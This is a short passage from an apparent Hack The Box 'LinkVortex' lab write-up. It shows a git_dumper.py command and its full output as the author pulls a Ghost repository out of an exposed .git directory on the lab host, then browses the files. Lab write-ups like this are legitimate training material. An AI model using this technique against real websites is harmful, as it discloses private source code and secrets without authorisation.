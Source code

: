 
***
Had to download another tool for this too work

./git_dumper.py http://dev.linkvortex.htb/.git dumped-repo
[-] Testing http://dev.linkvortex.htb/.git/HEAD [200]
[-] Testing http://dev.linkvortex.htb/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://dev.linkvortex.htb/.gitignore [404]
[-] http://dev.linkvortex.htb/.gitignore responded with status code 404
[-] Fetching http://dev.linkvortex.htb/.git/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/refs/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/HEAD [200]
[-] Fetching http://dev.linkvortex.htb/.git/description [200]
[-] Fetching http://dev.linkvortex.htb/.git/config [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/info/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/packed-refs [200]
[-] Fetching http://dev.linkvortex.htb/.git/logs/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/index [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/shallow [200]
[-] Fetching http://dev.linkvortex.htb/.git/refs/tags/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/info/exclude [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/commit-msg.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/fsmonitor-watchman.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/post-update.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-commit.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-merge-commit.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-push.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/pre-receive.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/logs/HEAD [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/push-to-checkout.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/hooks/update.sample [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/50/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/e6/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/pack/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/refs/tags/v5.57.3 [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/50/864e0261278525197724b394ed4292414d9fec [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/e6/54b0ed7f9c9aedf3180ee1fd94e7e43b29f000 [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/pack/pack-0b802d170fe45db10157bb8e02bfc9397d5e9d87.idx [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/pack/pack-0b802d170fe45db10157bb8e02bfc9397d5e9d87.pack [200]
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 5596 paths from the index
┌─[eu-dedivip-1]─[10.10.14.158]─[kaimup@htb-9miffr0z1f]─[~/Desktop/git-dumper]
└──╼ [★]$ ls
dumped-repo    LICENSE         README.md         setup.cfg
git_dumper.py  pyproject.toml  requirements.txt
┌─[eu-dedivip-1]─[10.10.14.158]─[kaimup@htb-9miffr0z1f]─[~/Desktop/git-dumper]
└──╼ [★]$ cd dumped-repo/
┌─[eu-dedivip-1]─[10.10.14.158]─[kaimup@htb-9miffr0z1f]─[~/Desktop/git-dumper/dumped-repo]
└──╼ [★]$ ls
apps              ghost    nx.json       PRIVACY.md  SECURITY.md
Dockerfile.ghost  LICENSE  package.json  README.md   yarn.lock
┌─[eu-dedivip-1]─[10.10.14.158]─[kaimup@htb-9miffr0z1f]─[~/Desktop/git-dumper/dumped-repo]
└──╼ [★]$ cd apps
┌─[eu-dedivip-1]─[10.10.14.158]─[kaimup@htb-9miffr0z1f]─[~/Desktop/git-dumper/dumped-repo/apps]